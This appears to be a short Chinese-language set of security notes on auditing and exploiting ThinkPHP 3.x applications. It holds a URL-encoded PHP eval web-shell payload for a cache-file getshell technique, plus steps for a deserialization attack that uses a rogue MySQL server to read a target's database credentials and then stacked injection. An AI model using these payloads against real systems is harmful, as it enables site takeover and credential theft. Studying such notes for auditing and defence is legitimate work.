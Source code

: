 ```php
# 其余要注意的点
# 注意在对象创建的时候有没有用过滤器，没有的话输入就可控了。
	$id = I('id', 0, 'intval'); # 这是用了整数过滤器获取参数id
```

[开发中容易造成漏洞的写法](https://blog.csdn.net/Fly_hps/article/details/84954830)

### getshell类

- 缓存getshell(<=3.2.3)
	- 啊实打实的

```php
当使用了缓存函数写法如下时：
S($name,$data);
或
Cache::set("name",I("get.username"));
总之就是传入缓存函数的两个参数，第一个参数可以知道值，第二个参数有可控的部分即可。
条件：一般都需要刷新缓存文件
```
一种利用方式：
```
1. 将恶意代码通过正常功能插入数据库，请求参数类似：username=%0A%24a%3deval(%24_POST%5b%27cmd%27%5d)%3b%2f%2f
2. 最好刷新一下缓存（by正常清理缓存功能）
3. 对使用了上述缓存函数写法`S($name,$data);` && `$data`中包含第一步中插入的恶意代码
4. 生成的缓存文件名为 MD5($name).php，请求即可。
```

-   [反序列化POC](https://github.com/lu2ker/PHP-Code/blob/main/thinkphp3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96POC.php)，利用方式为：

    -   用`rogue_mysql_server`开启一个恶意Mysql服务器，在配置文件中填入想要读取的文件，比如读取目标数据库配置文件拿到数据库账户密码;
    -   POC里修改数据库配置为你的恶意mysql；
    -   发送序列化payload，恶意MySQL服务器可以读取到目标数据库配置文件内容；
    -   将POC中的数据库连接配置替换为目标的数据库配置，可修改需要注入的SQL语句，
    -   因为`ThinkPHP v3.2.*`默认使用的是PDO驱动来实现的数据库类，因为PDO默认是支持多语句查询的，所以这个点是可以堆叠注入的。也就是说这里可以使用导出数据库日志等手段实现Getshell，或者使用`UPDATE`语句插入数据进数据库内等操作。

    条件：目标数据库账户必须是root

    实际案例：[XYHCMS前台反序列化](https://github.com/M00nBack/vulnerability/tree/main/xyhcms/XYHCMS%E5%89%8D%E5%8F%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96)
